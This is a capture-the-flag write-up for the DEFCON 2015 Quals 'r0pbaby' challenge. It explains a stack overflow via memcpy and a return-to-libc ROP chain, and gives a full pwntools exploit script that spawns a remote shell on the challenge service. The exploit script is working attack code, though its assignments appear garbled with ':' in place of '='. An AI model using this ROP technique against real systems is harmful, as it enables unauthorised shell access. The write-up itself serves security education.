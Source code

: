 ```yaml
---
type: ctf
title : DEFCON CTF 2015 Quals - r0pbaby
tags: [DEFCON CTF, r0pbaby]
date : 2015-05-23
author: Eno Leriand
featuredImage: https://media.defcon.org/DEF%20CON%2023/DEF%20CON%2023%20images/DEF%20CON%2023%20-%20ctf-visual.jpg
---
```


**Category:** Baby's First
**Points:** 1
> r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me:10436


64 bit ELF. No stack guard, but it has NX & PIE protection.  
The service will give you a menu first:  
> Welcome to an easy Return Oriented Programming challenge...
> Menu:
> 1) Get libc address
> 2) Get address of a libc function
> 3) Nom nom r0p buffer to stack
> 4) Exit

Th first one will print out the `libc.so.6`'s address, which contains the **real** libc base address. The second one will ask you to input a libc function's symbol, and print out the function's address. The third one will ask you to input a number(string length) and a string.  

After we check the binary with IDA Pro, we found the following informations:

```c
v0 : (signed __int64)nptr; // our input buffer
v1 : (signed __int64)&savedregs; // dest
memcpy(&savedregs, nptr, v7);
```

Our input will be stored at `nptr` first, then it'll be memcpy to `savedregs`. Let's check the location of `savedregs`:  
```c 
char nptr[1088]; // [sp+10h] [bp-440h]@2
__int64 savedregs; // [sp+450h] [bp+0h]@22 // on rpb
```

Right on the `rbp`!  
So everytime we choose `3)` and input something, it'll be copy to `rbp`, which means we can overwrite the return address. Since the binary has the **NX protection**, we better try the **return-2-libc** attack.  

The key point is to find a useful gadget. At first I try to leak the libc's base address, and attempt to guess the libc's version so I can calculate the `/bin/sh` and `pop rdi, ret` gadget. But I end with failure, since there's no other memory leakage vulnerability. At this moment, my teammate **bananaapple** propose a solution: **How about we find a gadget that's inside a function?**  

For instance, if we want to find a gadget `pop rdi, ret`, since `pop rdi, ret` : `5f c3` in machine code, we'll just have to find a functions that contains 2 bytes data `5f c3`, then we can calculate the offset and get the gadget's address. 

Using the aforementioned method, we quickly found that `5f c3` was at `_IO_proc_open` + 0x34d and `/bin/sh` was at `_libc_intl_domainname` + 0x0242. With these informations, we can now construct a ROP chain and exploit the service:

```python 
#!/usr/bin/env python

from pwn import *
import sys
import time

#HOST : "localhost"
HOST : "r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me"
PORT : 10436
#LIBC_PATH : "/lib/x86_64-linux-gnu/libc-2.19.so"

# setting 
context.arch : 'amd64'
context.os : 'linux'
context.endian : 'little'
context.word_size : 32

r : remote(HOST, PORT)

if __name__ == "__main__":

    print r.recvuntil(": ")

    # get system address
    r.sendline("2")
    r.recv(1024)
    r.sendline("system")
    s : r.recvuntil("Exit\n: ")
    print s
    system_addr : int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    log.success("system_addr: "+hex(system_addr))

    # get _IO_proc_open address to calculate [pop rdi, ret]'s address
    r.sendline("2")
    r.recv(1024)
    r.sendline("_IO_proc_open")
    s : r.recvuntil("Exit\n: ")
    print s
    open_addr : int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    pop_rdi_ret : open_addr + 0x34c + 1
    log.success("pop_rdi_ret: "+hex(pop_rdi_ret))
 
    # get _libc_intl_domainname address to calculate /bin/sh's address
    r.sendline("2")
    r.recv(1024)
    r.sendline("_libc_intl_domainname")
    s : r.recvuntil("Exit\n: ")
    print s
    domain_addr : int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    bin_sh : domain_addr + 0x242
    log.success("bin_sh: "+hex(bin_sh))

    payload : "AAAAAAAA" # rbp
    payload += p64(pop_rdi_ret) # pop rdi, ret
    payload += p64(bin_sh) # char* point to /bin/sh
    payload += p64(system_addr) # system

    # send the payload
    r.sendline("3")
    r.recv(1024)
    r.sendline(str(len(payload)))
    r.sendline(payload)
    
    r.interactive()

```

Flag: `W3lcome TO THE BIG L3agu3s kiddo, wasn't your first?`
